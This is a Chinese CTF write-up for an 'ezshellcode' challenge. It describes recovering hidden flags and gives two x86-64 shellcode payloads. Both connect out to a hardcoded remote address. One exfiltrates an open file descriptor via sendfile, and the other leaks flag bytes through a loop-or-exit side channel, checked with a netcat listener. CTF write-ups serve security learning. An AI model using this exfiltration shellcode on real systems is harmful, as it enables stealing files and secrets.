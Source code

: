 # ezshellcode

很简单的一个题目，基本上是以下几个点：

1. 手动混淆（bushi，区别出变量`1`和`l`，就可以看到两个flag文件，一个open之后没有close，一个是读到内存中没有memset
2. 没有close的用sendfile，然后看代码或者调试可以指导没有close的文件的fd是4
3. 没有memset的flag，直接恢复栈帧，然后调一个偏移（use after return？），然后侧信道
4. 侧信道判断远程是loop还是exit，可以建立一个连接到本地，然后本地用subprocess起一个`nc -lp portNum`，如果远程exit，本地的nc也会挂，如果loop就不挂，然后用poll方法检查nc是否挂了。

exp我没写完整的，但是大致就是这两段shellcode：

```python
shellcode1 = '''
    mov rsp, fs:[0x300]
    push SYS_socket /* 0x29 */
    pop rax
    push AF_INET /* 2 */
    pop rdi
    push SOCK_STREAM /* 1 */
    pop rsi
    syscall

    xchg rdi, rax;
    mov rax, 0xd28b7501b2250002
    push rax

    push SYS_connect /* 0x2a */
    pop rax
    
    mov dl, 0x10;
    push rsp;pop rsi;
    syscall

    push 0x20;pop r10;
    push 0;mov rdx,rsp
    push 4
    pop rsi
    /* call sendfile() */
    push SYS_sendfile /* 0x28 */
    pop rax
    syscall
    '''
shellcode2 = f'''
                mov rsp, fs:[0x300]
                
                mov al, 0x29
                mov dil, 2
                mov sil, 1
                syscall

                xchg edi, eax;
                mov rbx, 0xd28b7501b2250002
                push rbx
                
                mov al, 0x2a
                mov dl, 0x10;
                push rsp;pop rsi;
                syscall
                
                sub sp, 2144
                mov dl,byte ptr [rsp+{i}]
                mov cl,{ord(mid)}
                cmp dl,cl
                jz loop
                mov al,0x3c
                syscall
                loop:
                jmp loop
                '''
```